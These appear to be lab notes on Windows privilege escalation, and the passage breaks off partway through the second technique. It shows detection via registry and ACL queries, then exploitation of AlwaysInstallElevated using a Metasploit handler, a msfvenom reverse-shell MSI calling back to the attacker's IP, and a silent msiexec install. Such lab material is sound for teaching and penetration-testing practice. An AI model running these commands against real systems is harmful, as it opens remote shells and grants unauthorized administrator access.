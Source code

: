 ### Registry Escalation AlwaysInstallElevated

* Detection
* Windows VM
* Open command prompt and type:

```
reg query HKLM\Software\Policies\Microsoft\Windows\Installer
```

* From the output, notice that `AlwaysInstallElevated` value is `1`.
* In command prompt type:

```
reg query HKCU\Software\Policies\Microsoft\Windows\Installer
```

* From the output, notice that `AlwaysInstallElevated` value is `1`.
* Exploitation
* Kali VM
* Open command prompt and type: msfconsole
* In Metasploit (msf > prompt) type: `use multi/handler`
* In Metasploit (msf > prompt) type: set payload `windows/meterpreter/reverse_tcp` or `windows/shell_reverse_tcp`
* In Metasploit (msf > prompt) type: `set lhost [Kali VM IP Address]`
* In Metasploit (msf > prompt) type: `run`
* Open an additional command prompt and type:

```
msfvenom -p windows/meterpreter/reverse_tcp lhost=[Kali VM IP Address] -f msi -o setup.msi
```

* Copy the generated file, setup.msi, to the Windows VM.

Windows VM

* Place `setup.msi` in `C:\Temp`.
* Open command prompt and type:

```
msiexec /quiet /qn /i C:\Temp\setup.msi
```

### Service Escalation The Registry

* Detection
* Windows VM
* Open powershell prompt and type:

```
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
```

* Notice that the output suggests that user belong to `NT AUTHORITY\INTERACTIVE` has `FullContol` permission over the registry key.
* Exploitation
* Windows VM
* Copy `C:\Users\User\Desktop\Tools\Source\windows_service.c` to the Kali VM.
